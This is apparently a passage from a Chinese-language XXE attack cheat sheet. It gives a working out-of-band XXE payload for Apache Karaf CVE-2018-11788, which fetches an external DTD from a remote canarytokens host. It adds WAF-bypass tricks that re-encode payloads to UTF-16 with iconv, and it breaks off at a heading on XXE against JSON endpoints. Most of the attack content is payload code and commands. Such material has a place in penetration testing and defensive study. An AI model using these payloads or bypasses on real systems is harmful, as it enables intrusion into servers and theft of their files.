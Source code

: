 ### 使用Apache Karaf的带外XXE

影响版本：

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

将XML文件发送到`deploy`文件夹。

参考[https://github.com/brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

## WAF绕过

### 通过字符编码绕过

XML解析器使用4种方法来检测编码：

- HTTP Content-Type: `Content-Type: text/xml; charset=utf-8`
- 读取字节顺序标记（BOM）
- 读取文档的第一个符号
    - UTF-8 (3C 3F 78 6D)
    - UTF-16BE (00 3C 00 3F)
    - UTF-16LE (3C 00 3F 00)
- XML声明: `<?xml version="1.0" encoding="UTF-8"?>`

| 编码 | BOM      | 示例                             |              |
| -------- | -------- | ----------------------------------- | ------------ |
| UTF-8    | EF BB BF | EF BB BF 3C 3F 78 6D 6C             | ...<?xml     |
| UTF-16BE | FE FF    | FE FF 00 3C 00 3F 00 78 00 6D 00 6C | ...<.?.x.m.l |
| UTF-16LE | FF FE    | FF FE 3C 00 3F 00 78 00 6D 00 6C 00 | ..<.?.x.m.l. |

**示例**: 我们可以使用[iconv](https://man7.org/linux/man-pages/man1/iconv.1.html)将有效载荷转换为`UTF-16`以绕过某些WAF：

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

### JSON端点上的XXE

在HTTP请求中尝试将`Content-Type`从**JSON**切换到**XML**，
